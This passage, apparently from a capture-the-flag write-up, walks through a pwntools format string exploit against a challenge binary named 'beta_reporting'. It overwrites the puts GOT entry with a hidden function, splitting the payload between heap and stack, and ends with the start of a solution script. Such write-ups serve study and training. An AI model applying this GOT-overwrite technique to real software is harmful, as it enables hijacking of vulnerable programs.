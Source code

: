 Originally the *username* string (which contains the value of `puts got address`) starts at the 11th position in the stack.  
`fmtstr_payload` uses that as the start point and pads the value of the payload accordingly. However, our string format payload is not on the stack but rather on the heap this time so we -6 from it the adjust the locations accordingly.
`context.binary.got['puts']` is a useful feature from pwntools that gives us the got address of puts directly. Similarly for the unknown function.

```python
# Creating the payload
payload = fmtstr_payload(11-6,{context.binary.got['puts']:context.binary.symbols['unknownfunction']},write_size='short')
# Splitting the payload into puts got address
# Suppose to go into the stack
writelocation = payload[-8:]
# Splitting the payload to get the string format portion 
# Suppose to go into the heap
strfmt = payload[:-8]
```

We initialize the global variable magic by calling the `magicfunction`

```python
# Calling the magicfunction
p.sendline(str(4))
```

Next we send our string format as the contents of the report
```python
# Sending our string format to the heap
makereport(strfmt)
```

Next we set our usename as the got address of puts and trigger the vulnerability write the value of `unknownfunction` to it.
```python
# Sending our puts got address into the username and triggering the exploit
viewreport(writelocation,str(1))
```

Finally when puts is called we can get the flag
```python
# Yay flag!
p.interactive()
```
![](flag.png)

Finally solution is in [sol.py](sol.py)
```python
from pwn import *

LOCAL = False
GDB = False

context.binary = "./beta_reporting"
context.terminal =['tmux','splitw','-h']
# initial setup
if GDB and LOCAL:
    p = gdb.debug(context.binary.path, gdbscript='''
    init-pwndbg
    continue
    ''')
elif LOCAL:
    p = process(context.binary.path)
```